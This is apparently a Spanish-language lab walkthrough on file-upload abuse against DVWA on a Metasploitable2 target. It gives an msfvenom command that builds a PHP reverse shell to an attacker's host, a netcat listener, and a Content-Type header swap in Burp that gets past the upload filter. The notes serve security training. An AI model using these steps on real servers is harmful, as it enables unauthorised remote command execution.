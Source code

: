 # File Upload Abuse Parte 1
Cambiar la seguridad del sitio a Low.  

Crear un reverse shell con `msfvenom`:  
`msfvenom -p php/reverse_php LHOST=<IP DEL ATACANTE> LPORT=<ALGUN PUERTO PARA ESCUCHAR> -f raw > msfvenom-shell.php`  

Confirmar que se creó el shell corriendo el comando `ls`.  

Subir el shell al servidor Metasploitable2.  

Abrir otra ventana de terminal para ejecutar una instancia de Netcat. Netcat es una utilidad que va a escuchar por cualquier petición al puerto que definimos anteriormente.  
`nc -lvp <EL PUERTO QUE PUSIMOS ARRIBA>`

Ahora navegar a la página donde se subió el shell. Ejemplo: http://192.168.100.93/dvwa/hackable/uploads/msfvenom-shell.php  
El navegador no debería desplegar nada, pero en la terminal donde tenemos Netcat, vamos a obtener información de que se lograron conectar.  

Ahora se pueden ejecutar comandos remotamente, por ejemplo `ls`.  

---

# File Upload Abuse Parte 2
Cambiar la seguridad del sitio a Medium y reintentar el ataque anterior.  
El servidor no va a dejar subir el archivo por el tipo de archivo que es.  
Para burlar esto, interceptar el request con Burp y seguidamente alterar el paquete de la siguiente forma:  

En la línea donde dice:
`Content-Type: application/x-php`  
Cambiar el header a:
`Content-Type: image/jpeg`  

De esta forma el sevidor piensa que está recibiendo un archivo de imagen.

